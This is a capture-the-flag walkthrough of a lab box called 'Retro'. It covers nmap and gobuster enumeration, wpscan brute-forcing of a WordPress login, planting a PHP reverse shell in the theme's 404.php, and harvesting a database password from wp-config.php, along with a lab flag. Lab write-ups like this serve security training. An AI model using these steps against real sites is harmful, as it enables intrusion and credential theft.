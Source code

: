 # Retro

> New high score!

<br>

### Process:

1. port scan:
	- `sudo nmap -T4 10.10.38.58 -Pn`
	- `sudo nmap -T4 -A -p 80,3389 10.10.38.58 -Pn`
2. enumerate port 80:
	- visit website "http://10.10.38.58/" (default IIS homepage)
	- run gobuster: `gobuster dir -u http://10.10.38.58/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,bak,conf,txt,js`
		- found "retro"
		- hidden directory = **retro**
	- check for robots.txt -- not found
	- re-run gobuster: `gobuster dir -u http://10.10.38.58/retro -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,bak,conf,txt,js`
		- found wordpress directories 
	- run wpscan: `wpscan --url http://10.10.38.58/retro`
	- try to brute force login with found username "wade": `wpscan --url http://10.10.38.58/retro -U wade -P /usr/share/wordlists/rockyou.txt`
		- ...
	- reading blog posts on site revealled likely password
		- tried "wade:parzival" -- success
	- upload reverse shell:
		- go to “Appearance > Theme Editor > 404.php” and replace the PHP code with a [PHP reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
		- setup a netcat listener: `nc -lvnp`
		- then call the template: `http://10.10.38.58/retro/wp-content/themes/90s-retro/404.php`
3. post-exploitation:
	- found MySQL password in "wp-config.php" file:
		- "worpressuser567:YSPgW[%C.mQE]"
	- login with RDP in remmina using wade credentials -- success
	- found user.txt flag
		- user flag = **3b99fbdc6d430bfb51c72c651a261927**
		- 
